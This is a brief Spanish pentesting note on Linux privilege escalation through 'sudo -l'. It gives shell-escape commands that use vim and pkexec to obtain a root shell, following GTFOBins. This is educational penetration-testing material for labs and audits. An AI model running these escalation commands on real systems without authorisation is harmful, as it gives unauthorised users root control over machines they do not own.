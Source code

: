 ```yaml
---
title: "Sudo L"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/sudo-l"
date: "2025-09-30"
---
```


### SUDO -L
Si encontramos un binario que con ==sudo -l== vemos que podemos ejecutarlo como si fueramos el administrador, podemos buscar en **GTFOBins**

#### Sudo -L VIM

Si encontramos vim con sudo -l. Abrimos vim
``` bash
sudo vim -c ':!/bin/sh'
```

Alternativa:
```bash
sudo /usr/bin/vim

Una vez abierto:
:set shell=/bin/bash

pulsamos INTRO y luego escribimos
:shell

pulsamos INTRO y ya somos root
```

#### Sudo -L Pkexec
con este binario con permisos SUID se ejecuta un CVE, pero cuando tenemos permisos para ejecutar como el propietario, se puede hacer:
```bash
sudo pkexec /bin/sh
```